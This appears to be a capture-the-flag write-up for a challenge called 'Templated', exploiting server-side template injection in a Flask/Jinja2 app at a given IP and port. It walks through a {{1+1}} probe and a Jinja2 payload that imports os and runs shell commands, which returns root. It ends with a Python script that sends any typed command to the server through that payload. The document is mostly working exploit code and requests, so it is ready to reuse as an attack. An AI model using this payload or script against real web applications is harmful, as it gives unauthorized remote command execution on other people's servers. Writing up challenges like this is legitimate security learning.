 # Templated

The application is running in Flask and Jinja2. Thus I can try the following command like in this link : https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

```
http://143.110.162.231:31790/{{1+1}}
```

It returns the result `2`.

Then I can search to find how to call a method that execute command line. I found a link : https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

```bash
http://143.110.162.231:31790/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

This request returns me the user `root`. I craft an application in Python.

```python
import requests

cmd = input("Command : ")
url = "http://143.110.162.231:31790/{{request.application.__globals__.__builtins__.__import__('os').popen('" + cmd + "').read()}}"
headers = {
    "Host": "143.110.162.231:31790",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Connection": "keep-alive",
	"Upgrade-Insecure-Requests": "1",
}

response = requests.get(url, headers=headers)
try:
	response = response.text.split("<str>")[1].split("</str>")[0]
	print(response)
except IndexError:
    pass
```

Then I can execute it to grab the flag.

```bash
python script.py
```
